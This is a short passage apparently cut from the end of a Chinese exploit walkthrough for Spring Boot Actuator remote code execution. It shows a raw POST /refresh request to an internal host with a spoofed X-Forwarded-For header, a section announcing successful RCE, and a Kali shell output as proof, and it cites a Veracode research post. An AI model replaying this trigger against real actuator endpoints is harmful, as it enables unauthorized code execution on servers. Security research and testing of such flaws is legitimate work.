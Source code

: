 ```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```
## 0x03 RCE 执行成功

![](./yaml_success.png)
```
root@kali:/var/www/html# ls /tmp/succ*
/tmp/success
root@kali:/var/www/html# 

```

## 参考链接

https://www.veracode.com/blog/research/exploiting-spring-boot-actuators


